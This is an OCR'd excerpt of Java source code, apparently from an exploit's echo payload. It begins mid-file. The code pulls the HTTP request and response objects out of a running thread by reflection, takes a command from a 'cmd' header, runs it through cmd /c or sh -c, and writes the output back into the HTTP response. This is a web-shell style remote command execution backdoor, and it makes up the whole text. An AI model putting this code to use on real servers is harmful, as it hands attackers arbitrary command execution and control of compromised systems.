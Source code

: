 ```
                        Object request = httpConnection.getClass().getMethod("getRequest").invoke(httpConnection);
                        Object response = httpConnection.getClass().getMethod("getResponse").invoke(httpConnection);
                        String cmd = (String) request.getClass().getMethod("getHeader", String.class).invoke(request, "cmd");
                        OutputStream outputStream = (OutputStream)response.getClass().getMethod("getOutputStream").invoke(response);
                        String result = "\n"+exec(cmd);
                        outputStream.write(result.getBytes());
                        outputStream.flush();
                        break thread;
                    }
                }
            }catch (Exception e){}
        }
    }

    public String exec(String cmd){
        if (cmd != null && !"".equals(cmd)) {
            String os = System.getProperty("os.name").toLowerCase();
            cmd = cmd.trim();
            Process process = null;
            String[] executeCmd = null;
            if (os.contains("win")) {
                if (cmd.contains("ping") && !cmd.contains("-n")) {
                    cmd = cmd + " -n 4";
                }
                executeCmd = new String[]{"cmd", "/c", cmd};
            } else {
                if (cmd.contains("ping") && !cmd.contains("-n")) {
                    cmd = cmd + " -t 4";
                }
                executeCmd = new String[]{"sh", "-c", cmd};
            }
            try {
                process = Runtime.getRuntime().exec(executeCmd);
                Scanner s = new Scanner(process.getInputStream()).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                s = new Scanner(process.getErrorStream()).useDelimiter("\\a");
                output += s.hasNext()?s.next():"";
                return output;
            } catch (Exception e) {
                e.printStackTrace();
                return e.toString();
            } finally {
                if (process != null) {
                    process.destroy();
                }
            }
        } else {
            return "command not null";
        }
    }
}
```  
```
```  
  